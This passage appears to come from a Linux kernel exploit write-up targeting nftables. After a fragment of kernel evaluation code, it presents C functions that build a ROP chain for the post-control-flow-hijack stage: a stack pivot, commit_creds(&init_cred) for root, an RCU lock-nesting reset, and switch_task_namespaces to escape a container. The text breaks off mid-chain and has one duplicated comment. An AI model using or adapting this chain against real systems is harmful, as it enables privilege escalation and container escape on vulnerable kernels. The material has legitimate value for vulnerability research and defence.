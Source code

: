 ```c
    X(e, nft_lookup_eval);
    X(e, nft_range_eval);
    X(e, nft_immediate_eval);
    X(e, nft_byteorder_eval);
    X(e, nft_dynset_eval);
    X(e, nft_rt_get_eval);
    X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
    expr->ops->eval(expr, regs, pkt);
}
```

### Post RIP

Store the ROP payload below to the `kmalloc-cg-96` and `kmalloc-cg-192` addresses leaked above, and execute it.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + push_rbx_pop_rsp;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = getpid();
    data[i++] = kbase + find_task_by_vpid_off;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = 0x474;
    data[i++] = kbase + add_rax_rsi_ret;

    data[i++] = kbase + pop_rsp_ret;
    data[i++] = heap_addr1+0x20;
}

void make_payload2(uint64_t* data){
    int i = 0;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + pop_rcx_ret;
    data[i++] = -0xffff;
    data[i++] = kbase + mov_rax_rcx_ret;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
```
